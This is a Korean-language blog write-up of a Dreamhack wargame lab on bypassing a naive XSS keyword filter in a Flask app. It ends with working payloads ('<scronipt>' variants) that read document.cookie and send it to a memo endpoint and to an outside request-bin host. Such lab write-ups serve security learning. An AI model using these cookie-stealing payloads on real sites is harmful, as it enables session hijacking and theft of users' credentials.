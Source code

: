 ```yaml
---
layout : single
title : "STAGE2. XSS Filtering Bypass 함께실습"
categories: web-hacking-advanced
tag: [dreamhack, webhacking, wargame]
sidebar:
    nav: "docs"
---
```


- [x] xss filtering bypass

# Web Hacking [함께실습] xss filtering bypass


## 웹 서비스 분석
### 엔드포인트 : /vuln

이용자가 전달한 param 파라미터 값 출력

```python
@app.route("/vuln")
def vuln():
    param = request.args.get("param", "")
    param = xss_filter(param)
    return param
```

xss_filter : XSS 취약점을 막으려는 시도 / script, on, javascript 필터링

```python
def xss_filter(text):
    _filter = ["script", "on", "javascript"]
    for f in _filter:
        if f in text.lower():
            text = text.replace(f, "")
    return text
```

### 엔드포인트 : /memo

이용자가 전달한 memo 파라미터 값을 render_template 함수를 통해 기록 / 출력

```python
@app.route("/memo")
def memo():
    global memo_text
    text = request.args.get("memo", "")
    memo_text += text + "\n"
    return render_template("memo.html", memo=memo_text)
```

### 엔드포인트 : /flag

1) GET : 이용자에게 URL을 입력받는 페이지 제공
2) POST : param에 값과 쿠키에 flag를 포함하여 check_xss 함수 호출

```python
@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html")
    elif request.method == "POST":
        param = request.form.get("param")
        if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
            return '<script>alert("wrong??");history.go(-1);</script>'

        return '<script>alert("good");history.go(-1);</script>'
```

```python
def check_xss(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)
```

## 취약점 분석 / 익스플로잇

### 취약점 분석 

vuln , memo 엔드포인트는 이용자의 입력값을 페이지에 그대로 출력하며, memo는 render_template 을 통해 memo.html을 출력한다. render_template 함수는 전달된 템플릿 변수를 기록할 때 HTML 엔티티코드로 변환해 저장하기에, XSS 취약점이 발생하지 않는다. 그러나, vuln은 이용자가 입력한 값을 페이지에 그대로 출력하기에 XSS 취약점이 발생할 수 있다. 

filter_xss 함수를 통해 script, on, javascript 총 세 개의 키워드를 필터링하나, 키워드를 한 번만 제거하기에, 쉽게 우회 가능하다

### 익스플로잇

location.href : 전체 URL을 반환하거나, URL을 업데이트할 수 있는 속성
document.cookie : 해당 패이지에서 사용하는 쿠키를 읽고, 쓰는 속성

```javascript
<scronipt>document.locatioonn.href = "/memo?memo=" + document.cookie;</scronipt>
```

<img src="/images/wargame/23.png">

```javascript
<scronipt>document['locatio'+'n'].href = "http://kyjwjya.request.dreamhack.games/?memo=" + document.cookie;</scronipt>
```

<img src="/images/wargame/22.png">